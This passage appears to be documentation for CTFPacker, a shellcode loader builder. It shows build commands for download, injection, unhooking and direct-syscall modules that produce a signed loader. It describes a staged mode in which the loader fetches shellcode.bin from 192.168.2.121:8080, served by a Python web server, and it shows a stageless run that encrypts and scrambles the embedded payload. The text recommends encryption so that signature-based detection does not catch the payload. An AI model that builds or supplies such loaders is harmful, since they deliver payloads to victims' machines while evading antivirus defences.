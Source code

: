 ```powershell
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c download.c -o download.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o download.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
Connecting to http://timestamp.sectigo.com
Succeeded
[+] Loader signed !
[+] DONE !
```

With this command, your telling the loader to connect to the `192.168.2.121` IP, at port `8080` and download the `shellcode.bin` file. So you should serve this file via a webserver.

```powershell
C:\Code\CTFPacker\CTF Packer>ls
shellcode.bin

C:\Code\CTFPacker\CTF Packer>python -m http.server 8080
Serving HTTP on :: port 8080 (http://[::]:8080/) ...
```

### Stageless

This is fairly simple. The shellcode will be included into the loader. I recommend you to use the encryption arg `-e`. Otherwise the signature-based detection will likely catch it.

```powershell
C:\Code\CTFPacker>ls
core  custom_certs  main.py  requirements.txt templates

C:\Code\CTFPacker>python main.py stageless -p "C:\Code\CTFPacker\calc.bin" -o shellcode -e -s



 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░



        Author: B0lg0r0v
        https://arthurminasyan.com

[i] Stageless Payload selected.
[+] Starting the process...
[+] Template files modified !
[i] Encryption selected.
[+] Encrypting the payload...
[+] Payload encrypted and saved into payload[] variable in main.c !
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
```